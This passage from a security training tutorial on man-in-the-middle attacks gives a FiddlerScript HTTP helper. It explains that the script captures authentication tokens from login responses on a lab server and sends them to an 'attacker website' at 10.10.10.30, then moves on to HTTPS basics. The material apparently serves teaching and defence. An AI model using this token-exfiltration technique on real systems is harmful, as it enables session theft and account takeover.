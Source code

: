 
* Add an extra method to allow sending HTTP requests:
```
    public static function HTTPGet(Url:System.String, Data:System.String):System.String
    {
        var Out = String.Empty;
        var req = System.Net.WebRequest.Create(Url + (System.String.IsNullOrEmpty(Data) ? "" : "?" + Data));

        try{
            var resp = req.GetResponse();
            var stream = resp.GetResponseStream();

            var sr = new System.IO.StreamReader(stream);

            Out = sr.ReadToEnd();
            sr.Close();
            stream.Close();
        }
        catch(e){ Out = e.ToString();            
            FiddlerObject.alert(Out);
        }
        return Out;
    }
```

The script above will first intercept any successful authentication response from the targeted server (`oSession.HostnameIs("10.10.10.10") && oSession.uriContains("/api/login") && oSession.responseCode == 200`).
When this happens, the authentication token will be collected from the response (`System.Text.Encoding.UTF8.GetString(oSession.responseBodyBytes)`) and sent to the attacker website in charge of collecting stolen information (`Handlers.HTTPGet("http://10.10.10.30/api/logs/add",queryString)`).

Log in, and then visit `10.10.10.30`. Hopefully, this is the sort of thing you'd see:

<img src="{{ site.baseurl }}/rsillem/assets/security-mitm/fiddlerscript.png" style="display: block; margin: auto;"/>

See how the samples behave with HTTPS
-----

Before starting this exercise, make sure that Fiddler is NOT capturing HTTPS requests, then close it down.

The basic failing we're addressing is that sensitive data is being passed using HTTP. HTTP gives us no confidence that the sensitive data has not been intercepted or tampered with, or indeed that we are actually talking to the right host. Those are the things that HTTPS provides, and happily the sample apps do support HTTPS, in a flawed way, as you'd expect.

Now is the time to make sure you have a firm grasp of what HTTPS is, and how (to a superficial level at least) it works. This should include an understanding of the handshake process, what certificates are, and how they are used and trust established.

These links might prove useful:

* [Wikipedia article on HTTPS](https://en.wikipedia.org/wiki/HTTPS)
